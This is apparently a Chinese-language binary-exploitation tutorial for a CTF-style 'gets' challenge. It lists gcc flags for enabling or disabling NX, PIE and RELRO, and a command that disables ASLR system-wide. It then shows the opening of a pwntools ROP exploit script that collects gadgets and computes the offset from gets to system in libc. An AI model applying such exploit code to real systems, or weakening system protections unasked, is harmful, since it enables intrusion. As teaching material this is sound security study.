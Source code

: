```bash
gcc -z noexecstack -o test test.c  #开启NX保护

# PIE（ASLR）
# liunx下关闭PIE的命令
sudo -s echo 0 > /proc/sys/kernel/randomize_va_space
# gcc编译命令
gcc -o test test.c  #默认情况下，不开启PIE
gcc -fpie -pie -o test test.c  #开启PIE，此时强度为1
gcc -fPIE -pie -o test test.c  #开启PIE，此时为最高强度2
gcc -fpic -o test test.c  #开启PIC，此时强度为1，不会开启PIE
gcc -fPIC -o test test.c  #开启PIC，此时为最高强度2，不会开启PIE

# RELRO
gcc编译：

gcc -o test test.c  #默认情况下，是Partial RELRO
gcc -z norelro -o test test.c  #关闭，即No RELRO
gcc -z lazy -o test test.c  #部分开启，即Partial RELRO
gcc -z now -o test test.c  #全部开启，即full RELRO
```

**例子:**[gets](/uploads/codes/w5/gets) [libc.so.6](/uploads/codes/w5/libc.so.6)

```python
#!/usr/bin/env python
from pwn import *
# context.log_level = 'debug'
context.arch = 'amd64'
local = 1
if local:
	p = process('./gets')
	# p = remote('127.0.0.1', 4000)
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	p = remote('10.21.13.69', 10010)
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./gets')
g = lambda x: next(elf.search(asm(x)))
system_offset = libc.symbols['system']
gets_offset = libc.symbols['gets']
offset = system_offset - gets_offset
if offset < 0:
	offset &= 0xffffffff
gets_plt = elf.plt['gets']
gets_got = elf.got['gets']
libc_csu_init = elf.symbols['__libc_csu_init']
pop_rsp_r13_r14_r15_ret = g('pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret')
pop_rbp_ret = g('pop rbp ; ret')
pop_rdi_ret = g('pop rdi ; ret')
pop_r15_ret = g('pop r15 ; ret')
pop_rsi_r15_ret = g('pop rsi ; pop r15 ; ret')
pop_rbp_r14_r15_ret = g('pop rbp ; pop r14 ; pop r15 ; ret')
pop_rbx_rbp_r12_r13_r14_r15_ret = g('pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret')
add_ebx_esi_ret = g('add ebx, esi ; ret')
leave_ret = g('leave ; ret')
call_at_r12 = g('call QWORD PTR [r12+rbx*8]')
# gdb.attach(p)

bss = 0x602000
buf1 = bss - 0x100
buf2 = bss - 0x200
buf3 = bss - 0x300
buf4 = bss - 0x400
```